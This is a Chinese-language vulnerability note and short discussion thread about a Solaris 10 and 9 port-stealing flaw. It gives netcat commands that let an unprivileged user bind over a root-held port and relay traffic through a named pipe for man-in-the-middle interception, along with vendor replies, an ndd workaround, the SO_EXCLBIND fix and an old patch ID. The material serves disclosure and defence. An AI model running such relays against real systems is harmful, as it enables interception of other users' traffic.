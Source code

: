 10.27 Solaris 10 Port Stealing Vulnerability

http://scz.617.cn/unix/201103281906.txt

Q: Chris O'Regan <chris@encs.concordia.ca> 2011-03-28

先让root侦听在*:55555上:

# nc -l -p 55555

然后让普通用户执行:

$ nc -l -p 55555
Can't grab 0.0.0.0:55555 with bind

这是意料之中的。但是:

$ nc -l -p 55555 -s foo

将成功侦听在foo:55555上。可以用lsof确认:

# lsof -i tcp:55555

让我们建立一个端口转发:

mkfifo /tmp/namedpipe
nc -l -p 55555 -s foo 0</tmp/namedpipe | nc localhost 55555 1>/tmp/namedpipe

现在访问foo:55555，将被转至*:55555。这意味着中间人劫持。Solaris 9存在同样
问题。

我向Oracle报告了此问题，他们说这是BSD标准，是被期望的特性。他们给了一个极
不靠谱的临时解决方案:

# ndd -set /dev/tcp tcp_extra_priv_ports_add 55555

这跟没解决一样，我总不能将所有大于1023的端口都设成特权端口吧。

查看非(0,1024)区间的特权端口:

# ndd -get /dev/tcp tcp_extra_priv_ports
2049
4045

D: Jim Harrison

Windows有类似的功能:

Net.TCP Port Sharing
https://msdn.microsoft.com/en-us/library/ms734772.aspx

A: Casper <Casper.Dik@oracle.com>

setsockopt()的SO_EXCLBIND可以阻止这种行为。

A: c0ntex <c0ntexb@gmail.com> 2005-07-06

这其实是一个Sun提供过补丁的老漏洞，Oracle收购Sun之后，技术支持水平下降得太
厉害了。

Solaris Socket Hijack Vulnerability
http://www.securiteam.com/unixfocus/5XP0220GAG.html

当时Sun认为内核中对SO_REUSEADDR的支持存在BUG，并提供了补丁:

Document ID         : 116965-08
Patch ID            : 116965-08
Problem Description :

5089150 Binding to a port which has already been bound may incorrectly succeed

现在我也不知道上哪儿找这份原始公告去，Oracle就是跎屎。